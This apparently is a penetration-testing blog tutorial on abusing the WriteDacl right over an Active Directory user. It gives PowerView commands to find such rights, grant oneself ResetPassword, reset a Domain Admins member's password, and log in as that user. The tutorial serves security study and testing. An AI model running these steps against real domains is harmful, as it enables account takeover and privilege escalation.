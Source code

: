 ```yaml
---
title:  WriteDacl On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# WriteDacl

***WriteDacl*** : Is a permission that allows you to modify object's ACEs. If you have *WriteDacl* on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## PowerView

### WriteDacl Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *WriteDacl* right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -like "*WriteDacl*")}

```

*below image shows the current user `usman` has WriteDacl right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclenum.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has WriteDacl right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclb.png)

# Exploitation

## PowerView

### Give Resetpassword Right

Execute the below command to give yourself `Resetpassword` right.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedacladd.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
